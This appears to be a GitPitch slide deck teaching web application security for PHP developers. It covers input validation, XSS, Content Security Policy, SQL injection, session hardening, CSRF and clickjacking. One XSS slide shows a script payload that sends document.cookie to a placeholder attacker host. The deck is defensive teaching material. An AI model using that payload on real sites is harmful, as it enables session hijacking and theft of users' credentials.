 #HSLIDE
# Web Development Security
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">

#HSLIDE
## Pillars of Information Security
- Confidentiality
- Integrity
- Availability

#HSLIDE
## Principles
- Multiple Layer Security
- Consider that each layer will eventually fail
- Provide the minimum amount of information required

#HSLIDE
## Validate user input
Since HTTP requests can be manipulated client-side, all user input must be validated.

#HSLIDE
### Protection
- PHP offers the extensions ***ctype*** and ***filter***.
In addition, most frameworks implement some sort of data sanitization.
- PHP 7+ provides ***type declarations*** that allow you to specify the expected type of parameters.  
```php
declare(strict_types = 1);
```
#HSLIDE
## Cross-site scripting (XSS)
When a user-supplied script is stored and/or executed by the application.

#HSLIDE
### Example
Assuming that an application allows input via GET method, a malicious attacker do this injection:
```javascript
<script>
(New Image()).src = "http://attacker_url/?" + escape(document.cookie);
</script>
```
#HSLIDE
### Types
* Stored
* Non-persistent
* Based on DOM

#HSLIDE
### Consequences
- Cookie/session theft
- DOM Manipulation
- Keylogger
- Browser exploits
- Everything JavaScript allows

#HSLIDE
### Protection
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) only allows access to code from the same *origin* (protocol/domain/port) of the application, while allowing access to external files (a lib such as [JQuery](https://jquery.com), for example)
- Filter user input ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escape output ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.Htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Apply [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> delete inline code
#HSLIDE
### Testing the CSP
A report is created when related warnings are generated by the application.
```
Content-Security-Policy-Report-Only
Report-uri /path/file.php
```

#HSLIDE
## SQL Injection

### Protection
- Do not concatenate data (parameters) with SQL queries
- Validate user input
- Use prepared statements
- Escape characters

#HSLIDE
## Status Management

### Protection
- Use HTTPS
- Set *secure* and *HttpOnly* *flags*
- Prevent XSS
- [Change](http://php.net/manual/en/function.session-regenerate-id.php) Session ID
- Store some distinctive user information in session
- Detect session hijacking (token)
- Use [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) to hinder session theft

#HSLIDE
### Policies
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age = 86400; includeSubDomains
```

#HSLIDE
## Cross-site Request Forgery (CSRF)
- Caused by viruses, scam/phishing, malicious site/redirect

### Protection
- Submit token
- Do not use GET for operations involving data manipulation (just a good practice, because POST can also be manipulated)

### Clickjacking
- Attacker creates fake page and through requests to the target site (usually via iframe), takes advantage of the user session

#### Protection
```php
header('X-FRAME-OPTIONS', 'DENY'); // or SAMEORIGIN
```

#HSLIDE
## Tools
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)

#HSLIDE
## References
[OWASP](https://www.owasp.org)
